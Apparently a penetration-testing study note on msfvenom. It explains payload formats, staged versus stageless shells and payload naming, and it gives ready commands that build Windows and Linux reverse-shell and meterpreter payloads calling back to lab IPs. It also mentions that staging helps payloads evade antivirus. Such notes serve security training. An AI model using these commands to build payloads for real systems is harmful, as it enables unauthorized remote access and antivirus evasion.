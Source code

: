# msfvenom

Used to generate code primarily for reverse and bind shells. Can be used to generate payloads in various formats:

`.exe`
`aspx`
`.war`
`.py`

Standard syntax:

`msfvenom -p <PAYLOAD> <OPTIONS>`

Example: generate a Windows x64 Reverse Shell in exe:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listener-IP> LPORT=<listen-port>`

- `-f` specifies the output format
- `-o` output location and filename for the generated payload
- `LHOST=` specifies the IP to connect
- `LPORT=` port on local machine to connect back to

---

## Staged vs Stageless

### Staged
- Sent in __two__ parts
1. _stager_
	- A piece of code that executes directly ont he server itself
	- connects back to a waiting listener
	- __doesn't__ contain a reverse shell code
	- connects back to the listener and uses connection to load real payload
	- prevents it from touching the disk and being caught by traditional anti-virus solutions
2. Reverse shell code

### Stageless

Entirely self-contained. One piece of code which, when executed, sends a shell back immediately to the listener

---

## Payload Naming Convention

`<OS>/<arch>/<payload>`

`linux/x86/shell_reverse_tcp`

- Would generate a stageless reverse shell for an x86 Linux target

the __exception__ is for Windows 32bit targets; no arch is specified:

`windows/shell_reverse_tcp`

---

`msfvenom --list payloads`

---

reverse shell, Windows 64 bit .exe

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.214.205 LPORT=5555`

staged meterpreter reverse shell for 64bit Linux target, elf

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`


